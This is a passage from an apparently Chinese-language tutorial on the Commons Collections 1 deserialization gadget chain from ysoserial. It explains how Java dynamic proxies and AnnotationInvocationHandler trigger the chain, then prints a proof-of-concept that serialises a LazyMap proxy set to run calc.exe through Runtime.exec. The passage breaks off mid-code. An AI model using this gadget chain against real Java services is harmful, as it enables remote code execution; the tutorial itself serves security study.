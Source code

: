 ```
        `}`
    `}`
`}`
```

`ysoserial`的作者使用了对象代理的方式，关于 Java 动态代理，这篇文章讲得很好

[https://www.zhihu.com/question/20794107](https://www.zhihu.com/question/20794107)

简而言之就是当调用到被代理对象的任何方法时，都会先调用`InvocationHandler`接口中的`invoke`方法，而`AnnotationInvocationHandler`正好实现了该接口。

所以修改后的 POC 如下：

```
package ysoserial.CommonsCollections1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class LazyDemo `{`
    public static void main(String[] args) throws Exception `{`
        Transformer[] transformers = new Transformer[] `{`
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]`{`String.class, Class[].class`}`, new Object[]`{`"getRuntime", new Class[0]`}`),
                new InvokerTransformer("invoke", new Class[]`{`Object.class, Object[].class`}`, new Object[]`{`null, new Object[0]`}`),
                new InvokerTransformer("exec", new Class[]`{`String.class`}`, new Object[]`{`"C:\\Windows\\System32\\calc.exe"`}`)
        `}`;

        Transformer tranformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, tranformerChain);

        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) constructor.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]`{`Map.class`}`, handler);
        // 因为反序列化的入口是 AnnotationInvocationHandler，所以需要将传入 proxyMap 去再次实例化 AnnotationInvocationHandler 
        handler = (InvocationHandler) constructor.newInstance(Retention.class, proxyMap);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);

```